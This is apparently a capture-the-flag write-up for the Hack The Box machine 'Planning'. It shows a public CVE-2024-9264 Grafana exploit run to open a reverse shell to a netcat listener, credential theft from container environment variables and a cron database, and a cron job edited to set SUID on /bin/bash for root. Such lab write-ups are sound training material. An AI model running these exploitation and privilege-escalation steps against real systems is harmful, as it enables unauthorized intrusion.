





## Table of Contents

- [Summary](#Summary)
- [Introduction](#Introduction)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Virtual Host Enumeration](#Virtual-Host-Enumeration)
    - [Investigating Grafana](#Investigating-Grafana)
- [Foothold](#Foothold)
    - [CVE-2024-9264: Remote Code Execution in Grafana SQL Expressions](#CVE-2024-9264-Remote-Code-Execution-in-Grafana-SQL-Expressions)
- [Enumeration (Container)](#Enumeration-Container)
- [Privilege Escalation to enzo](#Privilege-Escalation-to-enzo)
    - [user.txt](#usertxt)
- [Enumeration (rezo)](#Enumeration-rezo)
- [Port Forwarding](#Port-Forwarding)
- [Enumeration Port 8000/TCP](#Enumeration-Port-8000TCP)
    - [Crontab UI](#Crontab-UI)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [root.txt](#roottxt)

## Summary

The box starts with a `Virtual Host (VHOST)` configuration for `Grafana` on version `11.0.0.` which is vulnerable to `CVE-2024-9264` also known as `Remote Code Execution (RCE) in Grafana SQL Expressions`. In order to use the already available `Proof of Concept (PoC)` exploit a `username` and `password` are required. Since the box creators provided these `credentials` the `foothold` on the box can be achieved. The `callback` of the exploits drops a shell inside a `Docker Container` as `root`. In the `environment variables` of `root` a `username` and `password` can be found which allows to access the box using `SSH` and the `user.txt` can be obtained. For the `privilege escalation` to `root` the port `8000/TCP` needs to be `forwarded` to the local machine. On this port a application called `Crontab UI` requires `credentials` to access it. The `password` can be found within a file called `crontab.db` inside of `/opt`. The `username` needs to be `guessed` but since it is all around `cronjobs` it is kind of obvious that the `corresponding username` is `root`. On the dashboard there are two `cronjobs` configured. The first one runs a script inside of `/root` which could be `modified` to `execute additional commands` after the running the script and therefore achieve `command execution` as `root`.

## Introduction

As is common in real life pentests, you will start the Planning box with credentials for the following account: `admin / 0D5oT70Fq13EvB5r`.

| Username | Password         |
| -------- | ---------------- |
| admin    | 0D5oT70Fq13EvB5r |

## Reconnaissance

### Port Scanning

The initial `port scan` shows a `redirect` to `planning.htb` on port `80/TCP`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.182.30
[sudo] password for kali:
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-10 21:02 CEST
Nmap scan report for 10.129.182.30
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.22 seconds
```

We added `planning.htb` to our `/etc/hosts` file in order to access it.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.182.30   planning.htb
```

### Enumeration of Port 80/TCP

The website itself didn't showed us anything useful.

- [http://planning.htb/](http://planning.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://planning.htb/ 
http://planning.htb/ [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@planning.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.129.182.30], JQuery[3.4.1], Script, Title[Edukate - Online Education Website], nginx[1.24.0]
```


### Virtual Host Enumeration

Since we had a `domain name` to deal with we started the `enumeration` of `Virtual Hosts (VHOST)` and found `grafana`.

```shell
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.planning.htb" -u http://planning.htb/ --fs 178

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 129ms]
:: Progress: [151265/151265] :: Job [1/1] :: 341 req/sec :: Duration: [0:07:09] :: Errors: 0 ::
```

And so we added `grafana.planning.htb` to our `/etc/hosts` file as well.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.182.30   planning.htb
10.129.182.30   grafana.planning.htb
```

### Investigating Grafana

On `http://grafana.planning.htb/` we found the `login form` for `Grafana` and the `version` displayed on the bottom of the page.

- [http://grafana.planning.htb/login](http://grafana.planning.htb/login)



| Version |
| ------- |
| 11.0.0  |

## Foothold

### CVE-2024-9264: Remote Code Execution in Grafana SQL Expressions

A quick research showed that version `11.0.0` of `Grafana` was vulnerable to `CVE-2024-9264` better known as `Remote Code Execution (RCE) in Grafana SQL Expressions`.

We found a `Proof of Concept (PoC)` exploit which required `authentication`. In order to pull it off we used the `username` and `password` given by the box creator.

- [https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Planning/files]
└─$ git clone https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit.git
Cloning into 'CVE-2024-9264-RCE-Exploit'...
remote: Enumerating objects: 15, done.
remote: Counting objects: 100% (15/15), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 15 (delta 6), reused 4 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (15/15), 5.73 KiB | 488.00 KiB/s, done.
Resolving deltas: 100% (6/6), done.
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/Planning/files/CVE-2024-9264-RCE-Exploit]
└─$ python3 poc.py --url http://grafana.planning.htb/ --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.16.37 --reverse-port 9001
[SUCCESS] Login successful!
Reverse shell payload sent successfully!
Set up a netcat listener on 9001
```

And right after we executed the exploit we received the callback.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.37] from (UNKNOWN) [10.129.182.30] 37980
sh: 0: can't access tty; job control turned off
#
```

## Enumeration (Container)

We got a shell as `root` which was an indicator that we dropped into a `container`.

```shell
# id
uid=0(root) gid=0(root) groups=0(root)
```

We only found one more user called `grafana` which was `not allowed` to `login`.

```shell
# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```

The look at `/` revealed the `.dockerenv` file and therefore we knew that we indeed got a `shell` as `root` within a `container`.

```shell
# ls -la /
total 60
drwxr-xr-x   1 root root 4096 Apr  4 10:23 .
drwxr-xr-x   1 root root 4096 Apr  4 10:23 ..
-rwxr-xr-x   1 root root    0 Apr  4 10:23 .dockerenv
lrwxrwxrwx   1 root root    7 Apr 27  2024 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 18  2022 boot
drwxr-xr-x   5 root root  340 May 10 19:01 dev
drwxr-xr-x   1 root root 4096 Apr  4 10:23 etc
drwxr-xr-x   1 root root 4096 May 14  2024 home
lrwxrwxrwx   1 root root    7 Apr 27  2024 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Apr 27  2024 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Apr 27  2024 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Apr 27  2024 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Apr 27  2024 media
drwxr-xr-x   2 root root 4096 Apr 27  2024 mnt
drwxr-xr-x   2 root root 4096 Apr 27  2024 opt
dr-xr-xr-x 290 root root    0 May 10 19:01 proc
drwx------   1 root root 4096 Apr  4 12:43 root
drwxr-xr-x   5 root root 4096 Apr 27  2024 run
-rwxr-xr-x   1 root root 3306 May 14  2024 run.sh
lrwxrwxrwx   1 root root    8 Apr 27  2024 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Apr 27  2024 srv
dr-xr-xr-x  13 root root    0 May 10 19:01 sys
drwxrwxrwt   1 root root 4096 May 10 20:06 tmp
drwxr-xr-x   1 root root 4096 Apr 27  2024 usr
drwxr-xr-x   1 root root 4096 Apr 27  2024 var
```

## Privilege Escalation to enzo

### Container Escape

It was not a typical `container escape` but by checking the `environment variables` we found a `username` and `password` which granted us access via `SSH` as user `enzo` on the box itself.

```shell
# env
GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
AWS_AUTH_EXTERNAL_ID=
SHLVL=1
HOME=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_LOGS=/var/log/grafana
_=/usr/bin/sh
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
PWD=/usr/share/grafana
```

| Username | Password          |
| -------- | ----------------- |
| enzo     | RioTecRANDEntANT! |

```shell
┌──(kali㉿kali)-[~]
└─$ ssh enzo@planning.htb
The authenticity of host 'planning.htb (10.129.182.30)' can't be established.
ED25519 key fingerprint is SHA256:iDzE/TIlpufckTmVF0INRVDXUEu/k2y3KbqA/NDvRXw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'planning.htb' (ED25519) to the list of known hosts.
enzo@planning.htb's password:
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat May 10 08:23:14 PM UTC 2025

  System load:           0.16
  Usage of /:            66.6% of 6.30GB
  Memory usage:          46%
  Swap usage:            0%
  Processes:             277
  Users logged in:       0
  IPv4 address for eth0: 10.129.182.30
  IPv6 address for eth0: dead:beef::250:56ff:feb0:d732

  => There are 43 zombie processes.


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

Last login: Sat May 10 20:23:17 2025 from 10.10.16.37
enzo@planning:~$ 
```

### user.txt

We grabbed the `user.txt` and moved on with the `enumeration` of the box outside the container.

```shell
enzo@planning:~$ cat user.txt 
e4e0eab9e98bab9a7916f04b2930e55d
```

## Enumeration (rezo)

The user had no special `group memberships` and there was also no other user on the system.

```shell
enzo@planning:~$ id
uid=1000(enzo) gid=1000(enzo) groups=1000(enzo)
```

```shell
enzo@planning:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:102:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:103:104::/nonexistent:/usr/sbin/nologin
uuidd:x:104:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:105:107::/nonexistent:/usr/sbin/nologin
tss:x:106:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
enzo:x:1000:1000:Enzo Yamada:/home/enzo:/bin/bash
dnsmasq:x:999:65534:dnsmasq:/var/lib/misc:/usr/sbin/nologin
lxd:x:996:101::/var/snap/lxd/common/lxd:/bin/false
mysql:x:110:113:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:995:988::/var/log/laurel:/bin/false
dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
```

When we checked the `locally available ports` we noticed quite a few running on `localhost` only.

```shell
enzo@planning:~$ ss -tulpn
Netid                   State                    Recv-Q                   Send-Q                                     Local Address:Port                                       Peer Address:Port                   Process                   
udp                     UNCONN                   0                        0                                             127.0.0.54:53                                              0.0.0.0:*                                                
udp                     UNCONN                   0                        0                                          127.0.0.53%lo:53                                              0.0.0.0:*                                                
udp                     UNCONN                   0                        0                                                0.0.0.0:68                                              0.0.0.0:*                                                
tcp                     LISTEN                   0                        511                                            127.0.0.1:8000                                            0.0.0.0:*                                                
tcp                     LISTEN                   0                        4096                                       127.0.0.53%lo:53                                              0.0.0.0:*                                                
tcp                     LISTEN                   0                        4096                                           127.0.0.1:3000                                            0.0.0.0:*                                                
tcp                     LISTEN                   0                        4096                                          127.0.0.54:53                                              0.0.0.0:*                                                
tcp                     LISTEN                   0                        151                                            127.0.0.1:3306                                            0.0.0.0:*                                                
tcp                     LISTEN                   0                        511                                              0.0.0.0:80                                              0.0.0.0:*                                                
tcp                     LISTEN                   0                        4096                                           127.0.0.1:33051                                           0.0.0.0:*                                                
tcp                     LISTEN                   0                        70                                             127.0.0.1:33060                                           0.0.0.0:*                                                
tcp                     LISTEN                   0                        4096                                                   *:22                                                    *:*
```

Furthermore we checked `/opt` and found the expected `containerd` directory as well as a `crontabs` folder.

```shell
enzo@planning:/opt$ ls -lah
total 16K
drwxr-xr-x  4 root root 4.0K Feb 28 19:21 .
drwxr-xr-x 22 root root 4.0K Apr  3 14:40 ..
drwx--x--x  4 root root 4.0K Feb 28 19:06 containerd
drwxr-xr-x  2 root root 4.0K May 10 19:01 crontabs
```

Even if it was `owned by root` we got the `permission` to `read` (`r-x`) the `content` of the directory.

Inside the `crontabs` directory we found a file called `crontab.db` which was also `readable` (`r--`) by us.

```shell
enzo@planning:/opt/crontabs$ ls -la
total 12
drwxr-xr-x 2 root root 4096 May 10 19:01 .
drwxr-xr-x 4 root root 4096 Feb 28 19:21 ..
-rw-r--r-- 1 root root  737 May 10 20:32 crontab.db
```

The `.db` file contained some information about `commands` which were executed in order `backup` the `Grafana` instance as well as a `password`.

```shell
enzo@planning:/opt/crontabs$ cat crontab.db 
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

| Password          |
| ----------------- |
| P4ssw0rdS0pRi0T3c |

## Port Forwarding

We simply forwarded all of the locally available ports and started accessing them to see if any of them could be valuable to us.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh -L 8000:127.0.0.1:8000 -L 3000:127.0.0.1:3000 -L 33051:127.0.0.1:33051 -L 33060:127.0.0.1:33060 enzo@planning.htb
enzo@planning.htb's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat May 10 08:30:46 PM UTC 2025

  System load:           0.0
  Usage of /:            66.6% of 6.30GB
  Memory usage:          46%
  Swap usage:            0%
  Processes:             273
  Users logged in:       0
  IPv4 address for eth0: 10.129.182.30
  IPv6 address for eth0: dead:beef::250:56ff:feb0:d732

  => There are 43 zombie processes.


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat May 10 20:30:47 2025 from 10.10.16.37
enzo@planning:~$
```

## Enumeration Port 8000/TCP

### Crontab UI

On port `8000/TCP` we found an application called `Crontab UI`. The application was basically a `graphical frontend` for `managing` different `cronjobs` inside the `crontab`.

- [http://127.0.0.1:8000/](http://127.0.0.1:8000/)

Unfortunately the website required `authentication`. After a bit of trial and error we figured out that the `password` which we found inside the `crontab.db` could be used in combination with the username of `root` to access the `dashboard` of `Crontab UI`.

| Username | Password          |
| -------- | ----------------- |
| root     | P4ssw0rdS0pRi0T3c |



## Privilege Escalation to root

As expected by the output of the `database` we found two `cronjobs`. Since the first job was running inside `/root` we assumed that the application needed equal permissions in order to execute the `cronjob`.

We added one additional command after the `cleanup.sh` separating them using a `;` in order to make the `cronjob` set the `SUID` bit on `/bin/bash` as `root`.

```shell
/root/scripts/cleanup.sh;chmod u+s /bin/bash
```



After saving our modifications we executed the job and got the `SUID` bit successfully set on `/bin/bash` as `root`.



```shell
enzo@planning:/opt/crontabs$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

One more step `preserving` the `original permissions` of the binary and we got `root`.

```shell
enzo@planning:/opt/crontabs$ /bin/bash -p
bash-5.2#
```

```shell
bash-5.2# id
uid=1000(enzo) gid=1000(enzo) euid=0(root) groups=1000(enzo)
```

### root.txt

```shell
bash-5.2# cat root.txt
8f747118d7b69c8c51e585f57b0cbf8b
```
